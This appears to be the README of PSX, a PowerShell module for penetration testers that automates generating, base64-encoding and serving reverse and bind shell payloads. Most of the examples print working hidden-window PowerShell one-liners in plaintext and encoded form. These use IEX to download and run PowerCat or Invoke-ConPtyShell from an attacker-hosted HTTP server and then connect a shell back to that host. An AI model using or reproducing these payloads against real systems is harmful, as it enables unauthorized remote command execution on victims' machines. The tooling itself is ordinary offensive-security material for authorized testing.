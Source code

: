 # PSX

## Description
This module helps specifically with PowerShell payloads

You no longer need to manually base64-encode your payloads, host, or tweak them\
With a few quick functions, you can now automate the whole shebang with only a few arguments

## Features
PSX currently provides the following features:
- ConPtyShell automation (including terminal [auto]size specification)
- PowerCat automation
- Base64-(encode|decode) payloads
- Automatic payload-to-clipboard
- Python Simple HTTP server
- Parameter completion
- [Optional] Automation for netcat listeners ***(X11 only)***

## Available Functions
- `cvsh` -> `Convert-Shell`
- `ib64` -> `Invoke-B64`
- `Invoke-Server`
- `Get-InterfaceAddress`
- `Sync-PSX`
- `Get-PSXAutomation` ***(X11 only)***
- `Set-PSXAutomation` ***(X11 only)***

## Heads up
- This module **WILL NOT**, and **MUST NOT** be, run as `root`; this is by design, and I will\
not be changing this at any point
- Only time elevated privileges are needed is on the first invocation of the module commands\
If you decide to enable automating netcat listeners, you will be prompted for your `sudo` password\
to issue the command `sudo apt-get install xdotool`
- The above command runs without verbosity, but you can see what gets installed by reading through\
`helpers/Init.ps1`
- Automation feature requires:
    - `xdotool` (Initial invocation of the module commands takes care of that)
    - X11 environment (Sorry, Waylanders...For now, maybe? :eyes:)
    - `Convert-Shell ... -Serve` (i.e the `-Serve`/`-s` switch)
- When using `conpty` as the selected payload type, caution must be exercised where\
terminal sizing is concerned. That is to say, the _current_ terminal size is chosen\
by default unless otherwise configured. For example, if you convert a `conpty` shell\
in a vertically-split terminal (49 rows, 95 columns), the netcat listener must be run\
in a terminal window of the same size. If you are on an X11 environment, and you have\
automation enabled, it is preferred to run `pwsh` in a non-split tab
- The module is designed to be implicitly imported from the `$USER`'s `$PSModulePath`, so\
please make sure you clone it as per the instructions. Otherwise, you will have to tweak\
the module manifest, and any required path modifications yourself

## Cloning
```sh
kali@kali:~$ git clone https://github.com/X0RW3LL/PSX.git /home/$USER/.local/share/powershell/Modules/PSX
```
## Getting help
```ps
PS kali@kali /home/kali> Get-Help Convert-Shell -Full
```
## Examples

### PowerCat (reverse powershell)
```ps
PS kali@kali /home/kali> cvsh -i wlan1 -t powercat -lp 443 -s

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA


[!] Starting HTTP server on wlan1 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 192.168.0.111 port 80 (http://192.168.0.111:80/) ...
```
### PowerCat (bind cmd)
```ps
PS kali@kali /home/kali> cvsh -t powercat -lp 4444 -s -i docker0 -e cmd -b

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:80/powercat.ps1');powercat -l -p 4444 -e cmd"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA3ADIALgAxADcALgAwAC4AMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AbAAgAC0AcAAgADQANAA0ADQAIAAtAGUAIABjAG0AZAA=


[!] Starting HTTP server on docker0 port 80
[!] Currently serving: /usr/share/powershell-empire/empire/server/data/module_source/management
[!] Ctrl+C terminates the server

Serving HTTP on 172.17.0.1 port 80 (http://172.17.0.1:80/) ...
```
### ConPty (split terminal autosize)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 4455 -s -sp 8080 -i wg0

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:8080/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 4455 -Rows 49 -Cols 95"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwADgAMAAvAEkAbgB2AG8AawBlAC0AQwBvAG4AUAB0AHkAUwBoAGUAbABsAC4AcABzADEAJwApADsASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwAIAAxADAALgA4AC4AMAAuADIAIAA0ADQANQA1ACAALQBSAG8AdwBzACAANAA5ACAALQBDAG8AbABzACAAOQA1AA==


[!] Starting HTTP server on wg0 port 8080
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 8080 (http://10.8.0.2:8080/) ...
```
### ConPty (fullscreen terminal explicit sizing)
```ps
PS kali@kali /home/kali> cvsh -t conpty -lp 445 -s -i wg0 -rows 51 -cols 191          

[!] Plaintext payload:
----------------------
powershell -nop -ep unrestricted -w hidden -e "IEX(New-Object System.Net.WebClient).DownloadString('http://10.8.0.2:80/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.8.0.2 445 -Rows 51 -Cols 191"

[+] Encoded payload (copied to clipboard):
------------------------------------------
powershell -nop -ep unrestricted -w hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADAALgAyADoAOAAwAC8ASQBuAHYAbwBrAGUALQBDAG8AbgBQAHQAeQBTAGgAZQBsAGwALgBwAHMAMQAnACkAOwBJAG4AdgBvAGsAZQAtAEMAbwBuAFAAdAB5AFMAaABlAGwAbAAgADEAMAAuADgALgAwAC4AMgAgADQANAA1ACAALQBSAG8AdwBzACAANQAxACAALQBDAG8AbABzACAAMQA5ADEA


[!] Starting HTTP server on wg0 port 80
[!] Currently serving: /home/kali/.local/share/powershell/Modules/PSX/extensions
[!] Ctrl+C terminates the server

Serving HTTP on 10.8.0.2 port 80 (http://10.8.0.2:80/) ...
```
### Base64-decode
```ps
PS kali@kali /home/kali> ib64 -d SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgAxADEAMQA6ADgAMAAvAHAAbwB3AGUAcgBjAGEAdAAuAHAAcwAxACcAKQA7AHAAbwB3AGUAcgBjAGEAdAAgAC0AYwAgADEAOQAyAC4AMQA2ADgALgAwAC4AMQAxADEAIAAtAHAAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA

[+] Decoded payload:
--------------------
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.111:80/powercat.ps1');powercat -c 192.168.0.111 -p 443 -e powershell

```
